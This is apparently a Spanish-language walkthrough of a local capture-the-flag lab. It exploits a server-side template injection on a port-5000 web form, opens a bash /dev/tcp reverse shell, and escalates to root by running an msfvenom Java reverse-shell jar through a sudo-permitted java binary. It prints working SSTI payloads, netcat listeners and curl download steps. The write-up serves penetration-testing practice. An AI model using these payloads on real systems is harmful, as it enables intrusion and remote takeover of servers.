 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que nos da una web en el puerto 5000. Vamos a ver que nos está mostrando.
![alt text](image-1.png)

Vemos que nos mustra un especie de registro de usuario, vamos a hacer una prueba.
![alt text](image-2.png)

Al darle clik a enviar, vemos que nos devuelve el nombre del usuario.
![alt text](image-3.png)

Podemos ante un un SSTI (Server Side Template Injection) en el campo del nombre de usuario. Así que vamos a hacer la prueba básica para poder comprobar si es vulnerable.
```
{{2 * 2}}
```
![alt text](image-4.png)

Vemos que al darle click nos da el resulatdo de la operación, así que ahora vamos a buscar un payloado para podernos generar una shell reversa.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![alt text](image-5.png)

Vemos que después de introducir este payload, nos mustra el resultado del comando `id`.
![alt text](image-6.png)

Ahora vamos a generarnos la reverse shell. Para ello nos pondremos a la escucha en un puerto.
```
nc -lnvp 6969
```
![alt text](image-7.png)

Seguidamente, con el payload encontrado previamente, vamos a introducir la reverse shell.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "exec bash -i &>/dev/tcp/172.17.0.1/6969 <&1"').read() }}
```
![alt text](image-8.png)

Vemos que después de enviar el payload, la web se nos quda colgada, esto es buna señal, así que vamos a ver si se nos ha generado la shell en nusetra terminal.
![alt text](image-9.png)

Ahora vamos a comprovar si hay binarios con permisos de administrador para poder escalar nuestros privilegios.
```
sudo -l
```
![alt text](image-10.png)

Vemos que podemos escalar privilegios con java. Para ello nos tendremos que generar un payloado con `msfvenom` para poder generar una reverse shell de administrador.
```
msfvenom -p java/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f jar -o shell.jar
```
![alt text](image-11.png)

Ahora vamos a compartir el exploit a la máquina víctima por un servidor python.
```
python3 -m http.server 80
```
![alt text](image-12.png)

Ahora en la máquina víctima nos lo vamos a descargar.
```
curl http://172.17.0.1/shell.jar -o shell.jar
```
![alt text](image-13.png)

Ahora vamos a ponernos a la escucha por un puerto.
```
nc -lnvp 4444
```
![alt text](image-14.png)

Y ahora ejecutamos el archivo usando el binario.
```
sudo /usr/bin/java -jar /tmp/shell.jar
```
![alt text](image-15.png)

Veremos que después de ejectuar el archivo se nos genera una shell de administrador en la consola atacante que estaba en escucha por el puerto `4444`.